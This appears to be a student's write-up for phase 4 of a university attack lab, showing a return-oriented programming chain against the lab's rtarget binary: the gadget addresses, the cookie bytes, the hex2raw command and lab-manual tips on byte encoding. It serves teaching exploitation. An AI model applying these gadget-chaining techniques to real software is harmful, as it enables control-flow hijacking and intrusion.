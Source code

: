 ```assembly
pop rax	;58
ret
//pass the cookie
mov rax, rdi	;48 89 c7
ret
//call the function
```



```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   


;4019a7 + 4 = 4019ab // ab 19 40
;pass the cookie as rax // fa 97 b9 59
;move rax,rdi // 4019a2 // a2 19 40
;then push the function of touch2 //ec 17 40


```



```cmd
./hex2raw < 4ansmyown.txt | ./rtarget -q

cmd to run
```



**Summary:**

- Starting the index at an address means the disassembler will interpret the bytes from that point as a complete instruction.
- The disassembler decodes each instruction in sequence until it reaches the end of the function or another stopping point.
- For `mov` or any other instructions, it decodes the entire instruction set starting from the given address.

**Important Points from lab manual:**

- Your exploit string must not contain byte value 0x0a at any intermediate position, since this is the ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to terminate the string. 
- HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte ordering).


